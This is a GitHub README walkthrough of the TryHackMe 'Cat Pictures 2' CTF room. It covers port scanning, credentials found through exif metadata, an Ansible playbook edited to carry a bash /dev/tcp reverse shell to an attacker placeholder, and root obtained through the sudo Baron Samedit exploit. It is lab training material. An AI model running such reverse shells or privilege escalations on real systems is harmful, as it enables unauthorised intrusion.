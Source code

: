 ![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/301f7eea-8c78-44c1-83d7-344a47aa62d2)![image](https://github.com/Sabhareesh2002/Cat-picture---Tryhackme/assets/75512455/4402083f-7b78-435b-8db9-9a06f4b8cacd)# Cat-picture---Tryhackme


Cat Pictures 2 Writeup
This is a walkthrough of the Cat Pictures 2 CTF from TryHackMe. The room can be accessed here.

Recon
I started by running an Nmap scan to identify open ports on the target machine:

nmap -sV -sC -p- <#TARGETIP> -o nmap
The scan revealed the following open ports:

22 - OpenSSH 7.6p1
80 - Nginx 1.4.6 (Lychee version 3.1.1 photo album with cat pictures)
222 - OpenSSH 9.0 (Unusual port)
1337 - OliveTin (Web interface to run predefined shell commands)
3000 - Gitea (Lightweight DevOps platform)
8080 - Nginx default webpage (Possibly with subdirectories)
Web Pages
I began exploring the web applications hosted on different ports:

Port 80: Found a Lychee photo album with cat pictures. App Screenshot

Port 1337: Discovered OliveTin, a web interface to execute scripts and run Ansible Playbooks.



Port 3000: Accessed Gitea, a platform that might be hosting scripts and runbooks.


Port 8080: Default Nginx webpage, further inspection may reveal subdirectories.



After running gobuster and checking for vulnerabilities, nothing significant was found. So, I focused on the cat pictures hosted on port 80.

Cat Pictures Analysis
I downloaded all the cat pictures and checked them for exif data using exiftool. One picture revealed interesting information of a text file on a subdomain of one of the web applications:



Visiting the URL led me to a text file with the following information:



I managed to gain access to the website with the credentials from the text file and explored the user's repository, where I found flag1.txt (1/3 flags).



Ansible Playbook
Next, I inspected the playbook.yaml file and noticed it contains a shell command: shell: echo hi.



Knowing that OliveTin on port 1337 allows running Ansible Playbooks, I replaced the command with simple bash reverse shell payload from RevShells.com.

bash -i >& /dev/tcp/<#ATTACKERIP>/<#ATTACKERPORT> 0>&1
Setting up a NetCat listener and clicking "Run Ansible Playbook" triggered the payload, which gave me a shell on the box. Exploring the user directory file gave me another text file named flag2.txt (2/3 flags).



Privilege Escalation
With a reverse shell on the target machine, I looked around for interesting files and uploaded linpeas.sh to find vulnerabilities. One stood out: [CVE-2021-3156] sudo Baron Samedit.



To exploit this, I downloaded the exploit, uploaded it to the target machine, compiled it with make, and executed the ./sudo-hax-me-a-sandwich outfile to gain root access.


From here, I moved to the /root file directory and found the flag3.txt (3/3 flags).

Thanks for checking out my writeup! Feel free to reach out with any questions or comments.
